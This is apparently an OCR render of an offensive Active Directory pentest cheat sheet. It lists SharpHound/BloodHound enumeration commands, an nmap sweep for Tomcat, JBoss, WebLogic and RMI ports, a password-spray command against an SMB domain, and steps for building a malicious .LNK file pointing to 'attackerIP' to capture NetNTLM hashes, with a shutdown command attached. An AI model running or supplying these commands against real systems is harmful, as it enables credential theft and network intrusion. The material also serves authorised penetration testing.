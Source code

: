 ### Recon/Enumeration using BloodHound
```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

### Expanding BloodHound
- https://github.com/hausec/Bloodhound-Custom-Queries
- https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/
- https://www.trustedsec.com/blog/expanding-the-hound-introducing-plaintext-field-to-compromised-accounts/
- https://neo4j.com/docs/api/python-driver/current/









## Exploitation

### Identifying Quick Wins
- Tomcat
- JavaRMI
- WebLogic
- Jboss

```
nmap -p 8080,1098,1099,1050,8000,8888,8008,37471,40259,9010,7001 -iL ips.txt -oN tomcat_rmi_jboss.txt -sV
```

### adPeas
- https://github.com/61106960/adPEAS

### Password spray
- https://github.com/Greenwolf/Spray/blob/master/spray.sh

Spraying 3 password attempt for each user every 15 minutes without attempting password=username  
```
spray.sh -smb 192.168.0.10 users.txt seasons.txt 3 15 corp.company.local NOUSERUSER
```

- https://github.com/ShutdownRepo/smartbrute

### LNK Files
If you get access to a share we can create a malicious .LNK file. This .LNK file will includes a refernece to the attacker computers.
You can after choose to Relay the *NetNTLM* hash or crack it.

- https://github.com/Plazmaz/LNKUp
Use --execute to specify a command to run when the shortcut is double clicked 
```
lnkup.py --host attackerIP --type ntlm --output out.lnk --execute "shutdown /s"
```
